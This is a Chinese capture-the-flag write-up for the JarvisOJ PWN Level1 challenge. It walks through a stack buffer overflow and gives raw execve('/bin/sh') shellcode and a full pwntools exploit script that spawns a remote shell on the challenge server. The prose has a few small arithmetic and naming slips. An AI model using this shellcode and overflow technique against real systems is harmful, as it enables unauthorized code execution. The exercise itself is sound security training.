






# JarvisOJ-PWN-Level1
## 0x01 文件检查

```shell
file start
```



文件是32位的elf文件

```shell
checksec level1
```




NX的保护没有没有开，意味着栈上的数据可以被当作代码来执行


## 0x02 反编译
把文件放到IDA中，按下F5查看伪代码


在main主函数中只有一个函数调用vulnerable_function,跳到该函数上进行查看

从[ebp-88h]来看，程序开辟的缓冲区大小是0x88,然后程序打印了buf的起始地址，但是read能够读取0x100的数据，明显超出了预定义的buf的大小，造成了缓冲区溢出。

利用的方案就是从buf的起始位置开始写入shellcode，shellcode不足以填满buf的用垃圾数据填充buf，直到填写的ret的位置时用buf的起始位置覆盖，eip指到该位置时跳回到buf的起始位置执行shellcode


要想利用栈溢出需要满足两个条件
1.知道buf的大小
2.知道栈的起始位置

buf的大小就是payload="a"**0x88+"b"**0x4 最后的0x4是因为ebp在32位地址下占用了4字节的数据

payload=shellcode+"a"(0x88+0x44-len(shellcode))+buf起始地址

其中shellcode可以用通用的
```
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

```

最后需要解决的就是buf的起始地址了，buf的起始地址程序直接打印了
最后的代码就是
```python
from pwn import *

conn = remote("pwn2.jarvisoj.com", 9877)

text = conn.recvline()[14: -2]
system_addr = int(text, 16)

shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload = shellcode + "a"*(0x88+0x4-len(shellcode))+p32(system_addr)
conn.send(payload)
conn.interactive()
conn.close()
```




